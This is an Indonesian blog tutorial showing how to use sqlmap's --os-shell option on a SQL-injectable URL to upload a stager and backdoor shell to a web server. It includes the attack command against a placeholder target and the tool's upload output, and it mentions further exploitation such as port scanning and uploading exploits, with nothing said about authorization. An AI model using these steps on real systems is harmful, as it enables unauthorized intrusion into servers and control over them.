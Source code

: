 ```yaml
---
title: "Upload Shell Menggunakan SQLMap"
date: "2018-10-04"
tags: ['Security']
---
```


**Upload Shell Menggunakan SQLMap** - SQLMap adalah adalah tools opensource yang mendeteksi dan melakukan exploit pada bug SQL injection secara otomatis. Dengan melakukan serangan SQL injection, seorang attacker dapat mengambil alih serta memanipulasi sebuah database di dalam sebuah server.

Sangat sering kita menggunakan sqlmap untuk melakukan injeksi sql untuk mendapatkan database server web. Command yang akan kita gunakan adalah `--os-shell`,  disini [SQLMap](http://sqlmap.org/) akan meningkatkan privileges dan akan memberi kita shell interaktif.

Baca juga: [Cara Membuat List Password Menggunakan CUPP](https://akbar.kustirama.id/membuat-list-password-menggunakan-cupp/).

Di artikel kali ini saya akan menunjukkan cara mengupload backdoor melalui SQLMAP. Caranya cukup mudah karena dengan menggunakan SQLMAP, kita hanya perlu menuliskan command yang kita inginkan.

**Tambahkan `--os-shell` pada akhir command SQLMap.**

![Upload Shell Menggunakan SQLMap](images/1-1.png) 

Sebelumnya saya sudah mendapatkan nama database web tersebut.

```
sqlmap -u http://urltarget.com/file.php?id=21 -D namadatabase --os-shell
```

**SQLMap akan memberi kita pilihan, bahasa apa yang disupport oleh web server tersebut. Kalian pilih nomor 4 (PHP) atau cukup tekan ENTER.**

![Upload Shell Menggunakan SQLMap](images/2.png)

```
[INFO] the file stager has been successfully uploaded on 'C:/xampp/htdocs/' - http://urltarget.id:80/tmpujmew.php
```

Di sini, sqlmap akan meningkatkan privileges dan akan memberi kita shell interaktif tetapi dalam skenario ini kita akan mengunggah backdoor (Shell) secara selektif untuk eksploitasi lebih lanjut.

**SQLMap sukses mengupload backdoor. Sekarang kita buka file yang telah diupload.**

![Upload Shell Menggunakan SQLMap](images/3.png) 
Perhatikan bagian bawah.

**Sampai sini kita tinggal upload file yang kita inginkan.**

Kita dapat melakukan berbagai operasi dengan mudah seperti memasang remote system file, scanning port, meng-upload eksploit ke server, dll.
